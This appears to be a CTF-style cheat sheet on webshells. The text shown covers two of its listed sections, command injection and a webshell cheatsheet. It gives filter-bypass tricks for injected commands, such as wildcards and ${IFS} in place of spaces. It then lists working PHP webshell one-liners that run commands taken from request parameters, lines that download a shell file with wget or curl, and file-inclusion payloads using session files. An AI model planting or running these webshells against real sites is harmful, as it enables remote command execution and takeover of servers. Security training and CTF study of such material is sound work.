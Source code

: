 # Webshell
*  [Command injection](#command-injection)  
*  [Webshell cheatsheet](#webshell-cheatsheet)  
*  [Bypass blacklist extension](#bypass-blacklist-extension)  
*  [SQL inj to webshell](#sql-inj-to-webshell)  
*  [Don't delete my webshell](#dont-delete-my-webshell)  
*  [Reverse shell](#reverse-shell)  
*  [Privilege escalation](#privilege-escalation)  
*  [Reference](#reference)

# Command injection
In CTF, we can directly cat flag with cmd injection. In real world, we can directly make a reverse shell with it.  
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass the limit on space character
cat${IFS}flag
cat$IFSflag
IFS=,;`cat<<<cat,flag`    // assign comma to separator, let cat,flag be the input to cat
cat< flag          // let cmd read from the file
```

# Webshell cheatsheet
```php
// 回顯
<?php system('ls'); ?>
<?php system(ls); ?>
<?php system($_GET['cmd']); ?>
<?php system($_GET[1]); ?>

<?php passthru('ls'); ?>


// 不回顯
<?php shell_exec('echo 1>1'); ?>        // 1=echo 1>1
<?php shell_exec('>1');    ?>        // 1=>1

<?php shell_exec('wget -O 1.php url');   ?> // download shell
<?php shell_exec('curl -o 1.php url');  ?>  // 預設下載index.html

<?=`$_GET[1]`;          ?>         // <?= is used to shorten the <?php echo `blah`;
// ``就像exec不會直接顯示結果，需要echo
echo `$_GET[1]`;&1=ls

echo "{${phpinfo()}}";
echo "{${system("ls")}}";
die("...");


// 文件包含漏洞
include$_GET[1];             // 中間空格可以省略
include /var/lib/php/sessions/sess_xxxxx  // session內容可控的情況

// 思路：寫入base64編碼過的shell檔，再進行解碼  <環境www>
```